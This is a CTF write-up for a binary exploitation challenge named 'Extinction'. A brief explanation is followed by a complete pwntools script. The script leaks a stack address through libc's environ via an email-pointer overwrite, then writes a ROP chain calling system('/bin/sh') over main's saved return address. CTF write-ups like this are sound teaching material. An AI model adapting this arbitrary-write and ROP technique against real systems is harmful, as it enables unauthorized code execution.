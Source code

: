 ## Extinction

We are given stack and libc leaks already. No hooks overwrite as glibc is modern.

1. We leak stack by modifying pointer of an existing email in bss, to libc's environ symbol. Then we just read all emails, and we will get stack leak.

2. We then just directly go for ROP, by overwriting saved RIP of main. Not sure why SHSTK didn't block this. From environ symbol, saved RIP was at -304, we ovewrite with ROP chain of pop_rdi, /bin/sh pointer, a ret to align stack, and finally system symbol address. 


```py
from pwn import *

exe = ELF("./exitnction_patched")
libc = ELF("./libc.so.6")
context.binary = exe

p = process([exe.path])

## get given leaks
p.sendline(b"server")
p.recvuntil(b"0x")
lic = int(p.recv(12).decode(),16)
p.recvuntil(b"0x")
exit = int(p.recv(12).decode(),16)

libc.address = exit - libc.sym["exit"]
exe.address = lic - exe.sym["current_license"]

log.info(f"PIE main at {hex(exe.sym["main"])}")
log.info(f"LIBC system at {hex(libc.sym["system"])}")

#8 byte write in subject of email
def write(addr, ct):
    p.recvuntil(b"> ")
    p.sendline(b"write")
    p.sendlineafter(b"0x", hex(addr).encode()[2:])
    p.sendlineafter(b"(8 chars): ", ct)
    p.sendlineafter(b": ", b"")

# 64 byte write in body of email
def write_long(addr, ct):
    p.recvuntil(b"> ")
    p.sendline(b"write")
    p.sendlineafter(b"0x", hex(addr).encode()[2:])
    p.sendlineafter(b"(8 chars): ", b"a")
    p.sendlineafter(b": ", ct)


write(exe.address + 0x4030, p64(libc.sym['environ'])) #now 3rd email pointer points to environ
p.sendline(b"read")
p.recvuntil(b"#3:\n")
stack = u64(p.recv(6).ljust(8, b"\x00"))
log.info(f"stack leak - {hex(stack)}")

#2 useless writes, just to increase sent_mails count.
write(libc.sym["__free_hook"],  b"abc") 
write(libc.sym["__free_hook"],  b"abc")

rop = ROP(libc)
pop_rdi = rop.rdi.address
bin_sh = next(libc.search(b"/bin/sh\0"))
write_long(stack-304,  p64(pop_rdi)+p64(bin_sh)+p64(rop.ret.address)+p64(libc.sym["system"]))
p.sendline(b"write")   #exit loop by sending 5th write, causing main to return.
p.interactive()
```